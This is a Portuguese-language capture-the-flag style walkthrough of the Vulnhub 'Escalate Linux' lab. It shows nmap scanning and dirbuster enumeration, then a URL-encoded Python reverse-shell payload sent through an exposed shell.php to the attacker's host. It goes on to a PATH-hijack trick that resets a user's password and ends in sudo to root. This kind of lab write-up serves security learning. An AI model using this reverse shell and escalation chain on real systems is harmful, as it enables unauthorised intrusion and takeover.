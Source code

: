 ```yaml
---
title: Vulnhub - Escalate Linux
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/escalate_linux/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/escalate_linux-1,323/>
---

## Olá

Aproveite.

## Scanning web and services

### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap -sn 10.0.2.1-255
```

> O parâmetro `-sn` tem como finalidade realizar um ping scan.
> 

![scan nmap 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.9 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sV -p $ports 10.0.2.9
```

![scan nmap ports 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmapports.png)

## Enumeration

### Port 80 - Apache httpd 2.4.29

Para enumeração da porta em questão, primeiramente foi inserido no navegador e o que estava rodando era uma página padrão do apache. Logo, foi iniciado a utilização da ferramenta *dirbuster* para enumeração de diretórios conforme as figuras abaixo.

![port 80 - apache](/assets/img/Vulnhub/escalate_linux/port80apache.png)

![dirbuster](/assets/img/Vulnhub/escalate_linux/dirbuster.png)

Foi descoberto a partir da ferramenta supracitada a existência de um arquivo denominado `shell.php`. Ao acessar o diretório havia a mensagem “pass cmd as get parameter” logo, foi realizado uma tentativa de utilizar o comando solicitado na url com o comando `pwd` e foi obtido o resultado abaixo.

![Shell.php](/assets/img/Vulnhub/escalate_linux/shellphp.png)

O comando `pwd` funcionou! Logo, temos um grande problema aqui.

> Foram feitas tentativas de upload de arquivos, porém os arquivos não foram encontrados (mas não passei muito tempo procurando).
> 

Após, foi realizado uma tentativa de obter uma *shell* através de um script *python* encodado e a partir disso foi possível entrar na maquina com sucesso.

```
http://10.0.2.9/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.6%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

### Shell Obtido

Utilizando o código em *python* para obter uma shell reversa e a ferramenta *nc* como listener, conseguimos a *shell*.

![Shell Obtido](/assets/img/Vulnhub/escalate_linux/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a *shell* na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios.

Também, foi realizado o download do arquivo *[LinEnum.sh](http://LinEnum.sh),* através de um server simples em python na minha máquina, para realizar uma enumeração automatizada de alguns pontos interessantes da máquina alvo.

![linenum.sh](/assets/img/Vulnhub/escalate_linux/linenumsh.png)

![linenum result](/assets/img/Vulnhub/escalate_linux/linenumsh-result1.png)

![linenum result-2](/assets/img/Vulnhub/escalate_linux/linenumsh-result2.png)

A ferramenta trouxe diversos pontos interessantes, destaquei dois nas imagens acima.

> É importante ressaltar que essa máquina possui diversos modos para escalação de privilégios. Aqui, será feito apenas um.
> 

Para nossa escalação de privilégios, primeiramente foi verificado a existência do arquivo do diretório `/home/user5/script` e ao utiliza-lo, o mesmo apresenta a mesma função do comando `ls`. Com isso em mente, foi feito um roubo de path, para que o script em questão executasse o `ls` que criamos.

- `echo ‘echo “user1:user1” | chpasswd’ > ls`
- `chmod 777 ls`
- `export PATH= tmp:$PATH`

![ls tmp](/assets/img/Vulnhub/escalate_linux/lstmp.png)

Conforme imagem acima, ao executar o script, o mesmo irá executar o comando `ls` que acabamos de criar. Com isso, a senha do usuário `user1` foi alterada e podemos trocar de usuário.

No usuário `user1` foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário `user1` possuía permissão de executar tudo.

- `sudo su`

![Acesso root](/assets/img/Vulnhub/escalate_linux/rootobtido.png)

### Root obtido Escalate_Linux!